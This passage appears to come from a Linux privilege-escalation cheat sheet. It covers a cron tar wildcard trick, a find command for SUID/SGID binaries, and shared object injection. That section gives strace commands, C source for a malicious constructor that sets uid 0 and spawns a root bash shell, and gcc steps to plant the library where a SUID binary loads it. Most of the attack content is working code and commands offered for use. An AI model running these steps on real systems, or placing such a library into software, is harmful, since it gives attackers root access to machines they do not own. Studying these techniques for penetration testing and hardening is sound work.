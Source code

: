 ensure the script is executable.

When the tar command in the cron job runs, the wildcard (*) will expand to include these files. Since their filenames are valid tar command line options, tar will recognize them as such and treat them as command line options rather than filenames.

---

## 10. SUID / SGID Executables - Known Exploits

```bash
find / -type f \( -perm -4000 -o -perm -2000 \) -exec ls -l {} \; 2>/dev/null
```

* Search for all files with the SUID or SGID to check known vulnerable binaries and versions at [GTFOBins](https://gtfobins.github.io).

---

## 11. SUID / SGID Executables - Shared Object Injection

If a SUID/SGID binary attempts to load a shared object from an insecure or non-existent path, you may exploit this behavior by injecting a malicious `.so` file to escalate privileges.

### Trace File Access

Use `strace` to identify missing or user-writable shared object paths:

```bash
strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"
```

* Look for `.so` files the binary tries to load but can’t find.
* If it attempts to load a `.so` from a writable path, it's potentially exploitable.

### Create Malicious Shared Object

Write a `.c` file that spawns a shell:

```c
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void spawn_shell() {
    setuid(0); setgid(0);
    system("/bin/bash");
}
```

Compile it:

```bash
gcc -shared -fPIC -o /home/user/.config/libcalc.so libcalc.c
```

> Replace the output path with the one the binary was looking for.
